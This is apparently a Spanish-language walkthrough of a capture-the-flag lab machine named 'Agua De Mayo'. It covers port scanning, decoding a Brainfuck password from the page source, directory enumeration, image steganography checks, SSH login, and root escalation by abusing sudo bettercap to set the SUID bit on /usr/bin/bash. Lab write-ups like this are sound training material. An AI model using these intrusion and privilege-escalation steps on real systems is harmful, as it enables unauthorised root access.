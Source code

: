 
## Nombre: Agua De Mayo

### 1. ESCANEO

- Podemos identificar el sistema operativo de la maquina, que eso nos podrá ayudar en un futuro a tomar decisiones o buscar vulnerabilidades, para ello ponemos el comando:
  

`ping -c 1 172.17.0.2`


- Ahora, hemos de escanear cuales son los puertos abiertos de la maquina, para ello, ejecutamos el siguiente comando:
  
   `nmap -p- --open --min-rate=5000 -T5 -A -sT -Pn -n -v 172.17.0.2`



- Ahora, abrimos el navegador, y entramos a la pagina web poniendo como URL (la dirección ip), miramos su código fuente y al final de el todo en la linea 519  aproximadamente hay unas línea que esta en un lenguaje de programación que se llama BRAIN FUCK, usando en internet un programa llamado try it : https://tio.run/# se busca el lenguaje y se pega el codigo y dara una palabra:
  
      `bebeaguaqueessano`


- Ahora, con *GOBUSTER* podemos hacer una enumeración de rutas, copiando la URL para indicar que nos busque directorios de esa pagina web, con el siguiente comando:

    
   `gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20`

Veremos que hay un directorio que de llama images, lo copiaremos al navegador y veremos que tenemos una imagen que se llama agua_ssh, la descargamos a nuestro ordenador para posteriormente analizarla.
 

- Para ver los metadatos podemos usar varias maneras, una de ellas es ExIFTOOL
  

  ``exiftool + ( archivo.jpg )``

- Para alistar caracteres imprimibles que tiene la imagen usaremos STRINGS
  

  `` strings + ( archivo.jpg ) ``


- Para ver si hay algún archivo oculto en la imagen usamos el siguiente comando:
  

 `` steghide info agua_ssh.jpg `` YES

### 2. Acceso

- ahora nos conectaremos atraves del SSH, utilizaremos el nombre de la imagen que este en el directorio previamente encontrado. la imagen se llama agua_shh, y utilizaremos la clave que nos dio al momento de resolver el codigo brain fuck:  bebeaguaqueessano

      ``ssh agua@172.17.0.2 al pedir la contraseña usamos bebeaguaqueessano


- Una vez con acceso tenemos que elevar privilegios, para ello podemos hacer un `` sudo -l`` para ver que comandos puede ejecutar este usuario. Vemos que tenemos un binario que se llama bettercap que podemos ejecutar, por lo tanto ponemos

   `` sudo bettercap``

- Podemos ver poniendo help como el índice de el modulo y vemos que para usar comandos hay que usar la exclamación, por ejemplo:
  
`` ! COMMAND : Execute a shell command and print its output.``

-   hacemos exit: veificamos los permisos SUID que hay con el comando ``find / -perm -4000 2> /dev/null`` , observaremos que hay diferentes directorios y nos enfocaremos en el ``/usr/bin/bash`` ya que tiene una bash que podemos darnos privilegios.

- Nos daremos permisos a la bash para poder ser root `` ! chmod u+s /usr/bin/bash
  
  hacemos exit y ejecutamos
- bash -p
- whoami
